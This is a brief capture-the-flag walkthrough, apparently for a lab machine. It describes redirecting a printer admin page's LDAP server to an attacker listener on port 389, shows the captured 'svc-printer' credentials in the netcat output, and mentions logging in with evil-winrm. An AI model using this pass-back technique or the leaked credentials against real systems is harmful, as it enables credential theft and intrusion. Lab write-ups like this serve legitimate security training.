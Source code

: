 there is an ISS on port 80 which shows an admin configuration page for a printer. Here you can send a POST which only contains IP so you can only change the server IP for the printer which will likely try to authenticate after the change

so open a server on port 389 and wait:

connect to [10.10.16.5] from (UNKNOWN) [10.10.11.108] 54951
0*`%return\svc-printer�
                       1edFg43012!!

the user can directly use evilwinrm and access the flag


